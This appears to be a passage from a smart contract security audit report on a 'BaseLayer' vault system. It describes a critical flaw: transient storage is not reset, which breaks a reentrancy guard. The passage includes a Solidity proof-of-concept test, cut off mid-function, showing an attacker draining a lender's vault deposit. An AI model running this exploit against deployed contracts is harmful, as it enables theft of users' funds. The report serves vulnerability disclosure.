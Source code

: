 ## Findings Explanation

Findings are broken down into sections by their respective impact:

- Critical, High, Medium, Low impact
  - These are findings that range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
- Gas savings
  - Findings that can improve the gas efficiency of the contracts.
- Informational
  - Findings including recommendations and best practices.

---

## Critical Findings

### 1. Critical - Not resetting the transient storage in `_doBatchDispatch()` leads to the vaults being drained

`batchExecutor()` ensures that batch calls cannot be reentered. However, failing to clear the transient storage invalidates the `onlyInBatch` modifier for the rest of the function calls in the transaction.

#### Technical Details

There is a reentrancy check in [`_doBatchDispatch()`](https://github.com/JRFin/jrf-base-layer/blob/a16d9231fb3c2d1754da378455ba0cfe2d7df111/contracts/BaseLayer.sol#L458) that works by ensuring `batchExecutor()` is unset at the start of the transaction and setting it when the transaction begins. However, it is crucial to note that `batchExecutor()` is not reset at the end of the transaction.

This oversight means that the [`onlyInBatch()`](https://github.com/JRFin/jrf-base-layer/blob/a16d9231fb3c2d1754da378455ba0cfe2d7df111/contracts/BaseLayer.sol#L129) modifier, which only reverts if `batchExecutor()` is not set, does not effectively function as intended.

Consequently, all functions using the `onlyInBatch()` modifier remain callable and are susceptible to reentrancy, as there are no additional reentrancy guards within those functions. Additionally, `_doBatchDispatch()` cannot be called again within the same transaction due to the initial `batchExecutor()` check, which is not reset after the first call.

An example of a possible attack path, where an attacker drains a vault after a lender deposits and mints dr, is shown in the following PoC:

```solidity
function testAttack() public {
    batches = zeroBatches;
    token1.mint(lender, amount);

    data = abi.encodeWithSelector(IVault.deposit.selector, address(lender), amount);
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);

    vm.startPrank(lender);
    token1.approve(address(vault1), amount);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);
    baseLayer.dispatchBatch(batches);

    assertEq(baseLayer.depositaryReceiptBalances(address(vault1), accountIdLender), amount);

    batches = zeroBatches;
    vm.startPrank(maliciousUser);
    baseLayer.dispatchBatch(batches);
    baseLayer.transferOut(address(vault1), maliciousUser, amount);
```